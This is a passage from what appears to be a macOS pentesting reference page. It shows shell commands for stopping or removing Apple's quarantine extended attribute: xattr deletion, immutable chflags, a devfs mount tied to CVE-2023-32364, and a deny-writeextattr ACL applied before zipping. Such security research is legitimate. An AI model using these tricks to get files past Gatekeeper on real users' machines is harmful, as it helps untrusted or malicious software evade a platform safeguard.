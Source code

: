 For example: [https://youtu.be/f1HA5QhLQ7Y?t=21098](https://youtu.be/f1HA5QhLQ7Y?t=21098)

## Avoid quarantine xattrs tricks

### Remove it

```bash
xattr -d com.apple.quarantine /path/to/file_or_app
```

### uchg / uchange / uimmutable flag

If a file/folder has this immutable attribute it won't be possible to put an xattr on it

```bash
echo asd > /tmp/asd
chflags uchg /tmp/asd # "chflags uchange /tmp/asd" or "chflags uimmutable /tmp/asd"
xattr -w com.apple.quarantine "" /tmp/asd
xattr: [Errno 1] Operation not permitted: '/tmp/asd'

ls -lO /tmp/asd
# check the "uchg" in the output
```

### defvfs mount

A **devfs** mount **doesn't support xattr**, more info in [**CVE-2023-32364**](https://gergelykalman.com/CVE-2023-32364-a-macOS-sandbox-escape-by-mounting.html)

```bash
mkdir /tmp/mnt
mount_devfs -o noowners none "/tmp/mnt"
chmod 777 /tmp/mnt
mkdir /tmp/mnt/lol
xattr -w com.apple.quarantine "" /tmp/mnt/lol
xattr: [Errno 1] Operation not permitted: '/tmp/mnt/lol'
```

### writeextattr ACL

This ACL prevents from adding `xattrs` to the file

```bash
rm -rf /tmp/test*
echo test >/tmp/test
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" /tmp/test
ls -le /tmp/test
ditto -c -k test test.zip
# Download the zip from the browser and decompress it, the file should be without a quarantine xattr

cd /tmp
echo y | rm test

# Decompress it with ditto
ditto -x -k --rsrc test.zip .
ls -le /tmp/test

# Decompress it with open (if sandboxed decompressed files go to the Downloads folder)
open test.zip
sleep 1
ls -le /tmp/test
```
